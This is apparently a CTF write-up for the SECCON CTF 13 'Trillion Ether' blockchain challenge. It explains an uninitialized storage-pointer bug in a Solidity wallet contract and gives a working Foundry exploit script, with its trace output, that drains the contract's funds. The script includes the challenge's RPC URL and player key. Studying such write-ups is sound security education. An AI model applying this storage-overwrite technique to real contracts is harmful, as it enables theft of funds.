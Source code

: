 ```yaml
---
layout: post
title: "SECCON CTF 13 Quals Writeup"
categories: 
  - Writeup
  - blockchain
author: Songhyun Bae
---
```


I recently participated in the SECCON CTF 13 Qualifiers with my team, CyKor. I solved the “Trillion Ether” challenge in the blockchain category. I’m planning to write about it on my blog.


## **Trillion Ether**
> Get Chance!

Below is the code for the challenge. The contract allows the creation of wallets and includes `withdraw` and `transfer` functionalities. To solve the challenge, it is necessary to drain all the funds from the contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.28;

contract TrillionEther {
    struct Wallet {
        bytes32 name;
        uint256 balance;
        address owner;
    }

    Wallet[] public wallets;

    constructor() payable {
        require(msg.value == 1_000_000_000_000 ether);
    }

    function isSolved() external view returns (bool) {
        return address(this).balance == 0;
    }

    function createWallet(bytes32 name) external payable {
        wallets.push(_newWallet(name, msg.value, msg.sender));
    }

    function transfer(uint256 fromWalletId, uint256 toWalletId, uint256 amount) external {
        require(wallets[fromWalletId].owner == msg.sender, "not owner");
        wallets[fromWalletId].balance -= amount;
        wallets[toWalletId].balance += amount;
    }

    function withdraw(uint256 walletId, uint256 amount) external {
        require(wallets[walletId].owner == msg.sender, "not owner");
        wallets[walletId].balance -= amount;
        payable(wallets[walletId].owner).transfer(amount);
    }

    function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
        wallet = wallet;
        wallet.name = name;
        wallet.balance = balance;
        wallet.owner = owner;
    }
}
```

The most apparent bug exists in the _newWallet function, where an uninitialized storage variables bug occurs. The wallet variable is declared as storage but is not properly initialized before assignment. Consequently, the data is written starting from storage slot 0.

```
function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
    wallet = wallet;
    wallet.name = name;
    wallet.balance = balance;
    wallet.owner = owner;
}
```

In the TrillionEther contract, storage slot 0 holds the wallets array. Being a dynamic array, this slot stores the array’s length, and the actual elements are stored starting from keccak(0).

```
$ forge inspect TrillionEther storage-layout --pretty
| Name    | Type                          | Slot | Offset | Bytes | Contract                            |
|---------|-------------------------------|------|--------|-------|-------------------------------------|
| wallets | struct TrillionEther.Wallet[] | 0    | 0      | 32    | src/TrillionEther.sol:TrillionEther |
```

The wallets array consists of the Wallet struct, which occupies three storage slots for each element:
```
struct Wallet {
    bytes32 name;
    uint256 balance;
    address owner;
}

Wallet[] public wallets;
```

As a result, the storage slot for a new element in the array can be calculated using the formula:

$$
\text{keccak}(0) + (\text{array length} \times 3)
$$

By manipulating the array length in slot 0, we can cause an integer overflow during the multiplication step. This overflow allows us to overwrite the balance field of the Wallet struct with the owner address. By strategically creating wallets and controlling the overflow, we can target specific storage slots, overwrite critical data, and eventually drain all funds.

### Solution Script

Below is the exploit script that drains the contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

import {TrillionEther} from "../src/TrillionEther.sol";

contract solve is Script {
    uint256 playerPrivateKey;
    address player;

    TrillionEther problemInstance;

    function setUp() external {
        string memory rpcUrl = "http://trillion-ether.seccon.games:8545/fcf85a4f-6b2f-4f81-aef5-e966d043277f";
        playerPrivateKey = 0x6d9be7bb251e23e43ac737e9ce272c97d11eb2d8164b70fd92242a076eab0d30;
        address problemContract = 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F;

        player = vm.addr(playerPrivateKey);
        vm.createSelectFork(rpcUrl);

        problemInstance = TrillionEther(problemContract);
    }

    function run() external {
        vm.startBroadcast(playerPrivateKey);

        problemInstance.createWallet{value: 0}(bytes32(uint256(1))); 
        problemInstance.createWallet{value: 0}(bytes32(uint256(38597363079105398474523661669562635951089994888546854679819194669304376546646)));
        
        problemInstance.withdraw(1, address(problemInstance).balance);

        vm.stopBroadcast();
    }
}
```

```
$ forge script solve -vvvv --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [156386] solve::run()
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return] 
    ├─ [93340] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Stop] 
    ├─ [43240] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x5555555555555555555555555555555555555555555555555555555555555556)
    │   └─ ← [Stop] 
    ├─ [8328] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::withdraw(1, 1000000000000000000000000000000 [1e30])
    │   ├─ [0] 0x6B4df773CB9AdA0515BBC8F4eB9e57C18cE54152::fallback{value: 1000000000000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

